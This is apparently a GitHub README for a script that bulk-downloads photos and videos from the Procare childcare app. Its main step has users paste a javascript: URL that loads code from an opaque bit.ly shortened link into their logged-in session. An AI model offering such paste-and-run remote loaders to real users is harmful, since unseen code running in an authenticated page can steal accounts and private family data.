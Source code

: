 # procare-media-downloader
Hack method to download all of your media from procare.

***INSTRUCTIONS BELOW***

Quick script I wrote to download all pictures and videos out of procare. To use, do the following:

1.) Copy the following string of text:

```javascript:var js = document.createElement('script');js.src = 'https://bit.ly/37fHdcX';document.querySelectorAll('head')[0].appendChild(js)```

2.) Open google chrome (might work with other browsers, but not really tested)

3.) Log into procare

4.) In the address bar, type the word "javascript" followed by a colon (:) like this:

5.) Paste the text you copied earlier so your address bar now looks like this:

![image](https://user-images.githubusercontent.com/2482935/128072390-fa9d551c-0caf-4c0e-81f1-3179248ab639.png)


6.) Hit ENTER

7.) Select the date range of pictures you want to extract and click "EXTRACT"

![image](https://user-images.githubusercontent.com/2482935/128072694-a557e95a-39b4-40eb-9669-31c742414bff.png)

8.) When the website asks for permission to download multiple files, click "YES". These are your pictures and videos its trying to download.

This sounds *WAY* more complicated than it really is.
Just watch the [video](https://www.youtube.com/watch?v=c54Zx0Dx_A4)
, and if you get lost please feel free to contact me.
